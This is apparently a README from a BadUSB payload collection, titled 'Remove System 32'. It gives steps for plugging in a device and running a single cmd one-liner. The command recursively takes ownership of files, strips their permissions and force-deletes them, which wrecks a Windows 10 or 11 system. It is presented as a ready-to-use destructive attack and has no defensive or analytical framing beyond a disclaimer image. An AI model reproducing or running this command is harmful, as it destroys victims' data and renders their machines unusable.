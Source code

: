 # Remove System 32 - BadUSB ✅

A script used to remove System 32.

**Category**: Execution

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to remove System 32.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Opens CMD terminal
* Execute command

All
```cmd
takeown /f * /r /a /d y && icacls * /inheritance:r /grant:r administrators:(F) /t & del /f /q *
```
